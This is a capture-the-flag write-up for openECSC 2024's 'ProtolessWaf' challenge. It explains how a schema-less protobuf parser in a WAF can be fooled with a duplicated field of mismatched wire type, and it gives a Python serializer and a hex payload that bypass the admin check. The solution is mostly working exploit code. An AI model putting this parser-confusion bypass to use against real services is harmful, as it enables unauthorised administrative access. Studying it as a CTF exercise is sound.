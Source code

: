 # openECSC 2024 - Round 1

## [misc] ProtolessWaf (146 solves)

I found this cool parser for protobuf that does not require a .proto file. I'm using it in a WAF to prevent admin access to my server, I hope it works as expected.

Site: [http://protolesswaf.challs.open.ecsc2024.it](http://protolesswaf.challs.open.ecsc2024.it)

Author: Giovanni Minotti <@giotino>

## Solution

We are presented with a web application that accept a protobuf payload and a WAF that shields it from gaining admin access to obtain the flag.

The application has a standard protobuf implementation, while the WAF has a custom implementation that does not require a `.proto` file, since it can detect the field type.

Protobuf considers the field type described in the `.proto` file, discarding any field that does not match the expected type. However, the WAF does not require a `.proto` file, so it takes the first type as the expected type.

We can craft a payload that contains the field with a wrong type and the same field with the `.proto` type, in this order. The WAF will accept the field with the wrong type and use it to verify that the user is not admin, but the application will take the value of the field with the correct type.

Payload (before serialization):

```python
{"field_number": 1, "type": "varint", "value": 1337},
{"field_number": 1, "type": "length-delimited", "value": b"admin"}
```

Payload (after serialization): `08c0c4070a0561646d696e`

The following code block contains the implementation of a custom serializer that can be used to craft the payload:

```python
import struct


def create_byte_from_field_number_and_type(field_number, wire_type):
    return (field_number << 3) | wire_type


def encode_varint(value):
    result = b""
    while True:
        byte = value & 0x7F
        value >>= 7
        if value:
            result += bytes([byte | 0x80])
        else:
            result += bytes([byte])
            break
    return result


def build_message(fields):
    message = b""
    for field in fields:
        wire_type = 0
        if field["type"] == "varint":
            wire_type = 0
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += encode_varint(field["value"])
        elif field["type"] == "fixed64":
            wire_type = 1
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += struct.pack("<Q", field["value"])
        elif field["type"] == "length-delimited":
            wire_type = 2
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += encode_varint(len(field["value"]))
            message += field["value"]
        elif field["type"] == "fixed32":
            wire_type = 5
            message += bytes(
                [
                    create_byte_from_field_number_and_type(
                        field["field_number"], wire_type
                    )
                ]
            )
            message += struct.pack("<I", field["value"])
    return message


message = build_message(
    [
        {"field_number": 1, "type": "varint", "value": 1337},
        {"field_number": 1, "type": "length-delimited", "value": b"admin"},
    ]
)

print(message.hex())
```
